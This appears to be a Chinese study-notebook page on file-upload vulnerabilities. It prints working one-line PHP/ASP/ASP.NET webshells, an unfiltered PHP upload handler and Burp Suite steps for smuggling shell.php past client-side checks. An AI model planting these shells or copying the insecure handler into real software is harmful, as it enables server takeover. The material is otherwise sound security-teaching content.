

repository: Tsukimakura/My-notebook · page: 信息安全/web/10_漏洞原理/02_上传漏洞/02 绕过上传漏洞/index.html · generator: mkdocs

---
title: "1. 客户端检测"
status: draft
tags: [security]
created: null
updated: 2026-10-06
sources: []
---

> 文件上传的基本流程相同，客户端使用 JavaScript 验证，服务器端采用随机数来重命名文件，以防止文件重复。

防止上传漏洞：

1. 客户端检测 -- JS；
2. 服务器端检测 -- 检测文件的 MIME 类型，检测文件扩展名是否合法，甚至有些检测文件中是否嵌入恶意代码。

**中国菜刀** 和 **一句话图片木马**

- 软件“中国菜刀”用来管理网站文件，小巧灵活，可以用一段简短的代码方便地管理网站。

- 软件提供的服务器端文件仅有一行代码，目前支持的服务器端脚本包括：PHP、ASP、ASP.NET、JSP 等，并且支持 HTTPS 安全连接的网站。

- 常见代码：
	```text
	PHP:    <?php @eval($_POST['chopper']);?>
	ASP:    <%eval request("chopper")%>
	ASP.NET:<%@ Page Language="Jscript"%><%eval(Request.Item["chopper"],"unsafe");%>
	```
	因为代码短小精悍，也被称为一句话木马。

- 用中国菜刀连接网站后返回主界面，选中目标 URL 并单击鼠标右键，可以看到虚拟终端（执行命令操作）、数据库连接、执行自写脚本等选项，可以根据相应的选项使用某些操作。

- “图片一句话”就是把一句话木马插入在图片文件中，且**不损坏图片文件**，可以躲过一些防火墙检测。

- 制作图片一句话木马可以使用 Edjpgcom。

# 1. 客户端检测

**客户端验证**，作用是在文件发出请求之前，先在用户的浏览器里进行一次简单的检查。

代码示例：

```javascript
function checkFile() {
    var fileInput = document.getElementById('uploadFile');
    var filePath = fileInput.value;

    // 定义允许的后缀名（白名单）
    var allowedExtensions = /(\.jpg|\.jpeg|\.png|\.gif)$/i;

    if (!allowedExtensions.exec(filePath)) {
        alert('只允许上传图片格式 (jpg/jpeg/png/gif)！');
        fileInput.value = ''; // 清空选择
        return false;
    }
    return true; // 允许提交
}
```

由于这段代码运行在浏览器，攻击者可以通过禁用 JS 或使用 Burp Suite 拦截抓包，轻松绕过这个验证。

最基础的后端处理代码，**完全没有安全过滤**。会直接接收文件，并以“时间戳+原后缀”重命名，防止文件名冲突。

```php
<?php
// 设定上传目录为当前目录
$uploadPath = "./";

// 获取上传文件的基本信息
$tempFile = $_FILES['file']['tmp_name']; // 临时文件路径
$originName = $_FILES['file']['name'];   // 原始文件名

// 提取后缀名（例如：.php）
$fileExt = strrchr($originName, '.');

// 使用时间戳生成新文件名，防止重名
$newName = time() . $fileExt;
$finalPath = $uploadPath . $newName;

// 将临时文件移动到目标路径
if (move_uploaded_file($tempFile, $finalPath)) {
    echo "文件上传成功！存储位置: " . $finalPath;
} else {
    echo "文件上传失败。";
}
?>
```

针对客户端验证有很多绕过方法。

## 1.1 抓包修改

1. 将恶意脚本（如 `shell.php`）暂时改名为合法的图片格式（如 `shell.jpg`）。

2. 在浏览器选择该文件，此时 JavaScript 检查后缀名合法，允许通过。

3. 点击“上传”按钮，同时使用 **Burp Suite** 等工具拦截该请求包。

4. 在 Burp Suite 中，将文件名手动改回 `shell.php`，然后放行（Forward）。
